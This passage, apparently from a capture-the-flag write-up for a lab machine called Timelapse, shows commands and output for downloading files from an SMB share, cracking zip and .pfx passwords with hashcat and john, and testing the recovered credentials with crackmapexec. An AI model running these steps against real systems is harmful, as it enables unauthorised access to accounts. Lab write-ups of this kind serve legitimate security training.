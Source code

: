 ```bash
smb: \> mget *
getting file \Dev\winrm_backup.zip of size 2611 as Dev/winrm_backup.zip (23.0 KiloBytes/sec) (average 23.0 KiloBytes/sec)
getting file \HelpDesk\LAPS.x64.msi of size 1118208 as HelpDesk/LAPS.x64.msi (3627.9 KiloBytes/sec) (average 2656.7 KiloBytes/sec)
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as HelpDesk/LAPS_Datasheet.docx (886.7 KiloBytes/sec) (average 2270.4 KiloBytes/sec)
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as HelpDesk/LAPS_OperationsGuide.docx (963.6 KiloBytes/sec) (average 1548.7 KiloBytes/sec)
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as HelpDesk/LAPS_TechnicalSpecification.docx (507.0 KiloBytes/sec) (average 1438.0 KiloBytes/sec)
```

Before going through the LAPS files, we can try to brute force the zip. Remember to beautify the hash file so that it starts and ends with `$pkzip2$`.
```bash
➜  Dev unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password

➜  Dev /usr/sbin/zip2john winrm_backup.zip > zip.hash
➜  Dev vim zip.hash                                  
➜  Dev hashcat -a0 -m17210 zip.hash /usr/share/wordlists/rockyou.txt
[... snip ...]
$pkzip2$1*2*2*0*965* [... snip ...] *$/pkzip2$:supremelegacy
                                                 
Session..........: hashcat
Status...........: Cracked

➜  Dev unzip -P supremelegacy winrm_backup.zip 
Archive:  winrm_backup.zip
  inflating: legacyy_dev_auth.pfx
```

-------------

### Step 3
Try to crack the certificate (`.pfx`) password.
```bash
➜  Dev /usr/share/john/pfx2john.py legacyy_dev_auth.pfx | john --wordlist=/usr/share/wordlists/rockyou.txt /dev/stdin
[... snip ...]
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:01:06 DONE (2022-03-31 12:18) 0.01499g/s 48458p/s 48458c/s 48458C/s thuglife06..thug211
```

Testing the new password against LDAP, SMB and WinRM we find our first set of working creds, over LDAP `legacy:thuglegacy`. 
```bash
➜  timelapse crackmapexec ldap 10.10.11.152 -u legacy -p thuglegacy                                                  
LDAP        10.10.11.152    389    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\legacy:thuglegacy 
➜  timelapse crackmapexec smb 10.10.11.152 -u legacy -p thuglegacy
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [-] timelapse.htb\legacy:thuglegacy STATUS_ACCESS_DENIED 
➜  timelapse crackmapexec winrm 10.10.11.152 -u legacy -p thuglegacy
WINRM       10.10.11.152    5986   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:timelapse.htb)
WINRM       10.10.11.152    5986   DC01             [*] https://10.10.11.152:5986/wsman
```
